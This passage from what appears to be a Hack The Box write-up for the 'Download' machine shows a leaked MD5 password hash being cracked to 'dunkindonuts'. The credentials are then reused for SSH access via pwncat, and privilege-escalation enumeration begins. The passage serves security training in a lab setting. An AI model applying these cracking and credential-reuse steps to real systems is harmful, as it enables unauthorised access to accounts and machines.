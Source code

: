 ```bash
Partial: f88976c10af66915918945b9679b
Partial: f88976c10af66915918945b9679b2
Partial: f88976c10af66915918945b9679b2b
Partial: f88976c10af66915918945b9679b2bd
Partial: f88976c10af66915918945b9679b2bd3
Final password: f88976c10af66915918945b9679b2bd3
```

The MD5 hash can be cracked to get the actual password → `dunkindonuts`.

```bash
> sth --no-banner -t 'f88976c10af66915918945b9679b2bd3'

f88976c10af66915918945b9679b2bd3

Text : dunkindonuts
Type : MD5
```

Wesley's login credentials seem to be reused for SSH access.

```bash
> pc wesley:dunkindonuts@download.htb
[03:02:22] Welcome to pwncat 🐈!
[03:02:24] download.htb:22: registered new host w/ db
(local) pwncat$
(remote) wesley@download:/home/wesley$ id
uid=1000(wesley) gid=1000(wesley) groups=1000(wesley)
```

---

## Privilege Escalation to root

---

Unfortunately, `wesley` does not have any sudo privileges on the system.

```bash
(remote) wesley@download:/home/wesley$ sudo -l
[sudo] password for wesley:
Sorry, user wesley may not run sudo on download.
```

The existence of a `.psql_history` file in the home directory indicates that a Postgres database is being used.

```bash
(remote) wesley@download:/home/wesley$ ls -la
total 44
...snip...
lrwxrwxrwx 1 root   root      9 Apr 21 14:33 .psql_history -> /dev/null
drwx------ 2 wesley wesley 4096 Aug 10 19:31 .ssh
-rw-r----- 1 root   wesley   33 Aug 10 19:12 user.txt
-rw-r--r-- 1 wesley wesley   39 Jul 17 11:58 .vimrc
```
